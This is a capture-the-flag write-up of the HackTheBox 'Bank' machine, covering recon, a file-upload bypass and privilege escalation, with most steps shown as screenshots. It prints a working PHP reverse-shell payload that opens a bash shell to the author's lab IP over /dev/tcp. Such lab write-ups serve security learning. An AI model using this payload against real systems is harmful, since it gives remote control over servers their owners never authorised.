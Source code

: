 # HackTheBox - Bank
In the series of HackTheBox our next stop is ‘Bank’.

This is an Linux based machine which is tagged with ‘Easy’ severity, it was fun learning by playing with this box.But it needs lots of patience and information gathering skills to successfully exploit it.


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593499809806_Screenshot+2020-06-30+at+12.19.52+PM.png)


**Tools:**

PortScan - Nmap and Masscan
Proxy - Burp Suite
Directory Search - [ffuf](https://github.com/ffuf/ffuf)
Privilege Escalation - [LinuxPrivilegeChecker](https://github.com/sleventyeleven/linuxprivchecker)

**Steps To Reproduce:**

So without any delay i just started scanning all ports and sersion configuration using masscan and nmap

**Initial Recon:**


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593500049001_Screenshot+2020-06-30+at+12.23.59+PM.png)

![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593500103632_Screenshot+2020-06-30+at+12.24.53+PM.png)


On viewing the result port 22 appeared to be unusual after surfing i didn’t find anything intresting, meanwhile i ran fuff to search directories.

On accessing port 80, we can see that default apache page is available

![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501039346_Screenshot+2020-06-30+at+12.40.08+PM.png)


Dead end!!

After taking a look a forum disscussion, there was mentioned something about hostname, so with less hope i configured host name in /etc/hosts


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501195247_Screenshot+2020-06-30+at+12.43.02+PM.png)


 
I don’t know why this behaves like this, i got a web application with a login page 


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501270552_Screenshot+2020-06-30+at+12.43.32+PM.png)


**Directory Search:**

After long time of struggling with login page nothing came up, so i started running fuff with different files


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501526158_Screenshot+2020-06-30+at+12.47.29+PM.png)

![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501517590_Screenshot+2020-06-30+at+12.46.46+PM.png)


******Successful login:**

After lots of scanning i found something useful


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501578621_Screenshot+2020-06-30+at+11.20.45+AM.png)


While looking at those file contents, it had some information which were encrypted,


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501656815_Screenshot+2020-06-30+at+12.50.10+PM.png)


So i started scrolling down to find anything unusual, here we go 


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501700352_Screenshot+2020-06-30+at+11.22.59+AM.png)


One file appear to have different file size, on referring the file i get to know some information which lead me to login successfully


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501778813_Screenshot+2020-06-30+at+11.23.35+AM.png)


Boom!! we are inside



![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593502015116_Screenshot+2020-06-30+at+12.54.29+PM.png)


**Command Execution:**

In support tab i found file upload functionality, using which i try to upload php file which was rejected.


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593502166604_Screenshot+2020-06-30+at+11.27.29+AM.png)


So this expects image file, right as traditional method i used [exiftool](https://github.com/xapax/security/blob/master/bypass_image_upload.md) to store my reverse shell content into image file

But by doing so my image got rendered and i didn’t get any shell.

During my initial recon i found some like this


     <!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->

So i try to upload my reverse shell by creating a file with .htb extension


    Reverse shell code:
    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.24/1234 0>&1'");
    ?>

Finally we are into the server


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593502665235_Screenshot+2020-06-30+at+11.39.03+AM.png)


**User Flag:**

I thought www-data won’t have permission to read user.txt but to my suprise it was readable


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593503586536_Screenshot+2020-06-30+at+11.40.17+AM.png)


**Privilege Escalaltion:**

So for escalating to root, basic information are required. Just transfer linuxprivilegechecker.py file to /tmp directory and run 

Based on results i found something interesting which is running as root privilege


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593503876094_Screenshot+2020-06-30+at+11.57.57+AM.png)


So executing this file got me root 


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593503907340_Screenshot+2020-06-30+at+12.00.44+PM.png)


Thank you, Have a good day

